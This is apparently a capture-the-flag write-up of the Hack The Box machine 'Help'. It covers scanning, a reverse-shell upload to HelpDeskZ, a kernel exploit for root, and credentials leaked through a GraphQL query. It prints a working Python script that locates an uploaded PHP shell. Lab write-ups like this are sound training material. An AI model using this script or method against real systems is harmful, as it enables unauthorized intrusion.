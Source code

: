 ```yaml
---
layout: PostSimple
date: 2019-12-08
title:     "Hack The Box - Help"
tags: ['linux','easy','node','kernel_exploit']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/1.png)

We are going to pwn Help from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/170](https://www.hackthebox.eu/home/machines/profile/170)


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets begin from HTTP,It is an apache default webpage
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/2.png)

So bruteforce the directories
## Gobuster Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/15 00:08:21 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
/support (Status: 301)
===============================================================
2019/12/15 00:10:45 Finished
===============================================================
```

Found ``HelpDeskZ`` on ``/support``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/3.png)
It has a login page too.

A quick check for any exploits available I found this

>https://www.exploit-db.com/exploits/40300 

From the exploit I came to know we need to submit a ticket
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/4.png)

I gave some random and uploaded my reverse shell as ``root.php``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/5.png)

When I click uploaded it says[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/6.png)

Then I checked the source code of the ``HelpDeskz`` on github

>https://github.com/evolutionscript/HelpDeskZ-1.0

I came to know when we uploaded it shows ``Not allowed`` but its not deleting ,The file is still saved on the server.

I already found an exploit from ``exploitdb`` so I just edited some 


```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

I changed the ``url`` , I found that from the github repo.

Now I executed the scirpt on my machine with listening on another terminal.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/7.png)

I got an user ``help``

## Privilege Escalation:

While checking the kernel it looks old one 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/8.png)

> https://www.exploit-db.com/exploits/44298 

Got an exploit for that version

Uploaded the script to the machine 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/9.png)[br/](br/)
Got Root

## Enumerating ``Node.js``:

It looks like ``node.js`` running on port ``3000``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/10.png)

It give us some message that we need to find the credentials with given query.

Mostly ``node.js`` run as ``express graphql``

I test it with adding ``graphql?`` [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/11.png)

It shows some message so I tested with changing it to ``test`` and it gives me some error so I confirmed there is ``graphql``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/12.png)

We know the message told us to find in given ``query`` and I googled about it and found this 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/13.png)

So I added username and password [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/14.png)[br/](br/)
Got some credentials

It looks like md5sum so I cracked with online crackstation
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/15.png)

It works for ``HelpDeskz`` login
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/16.png)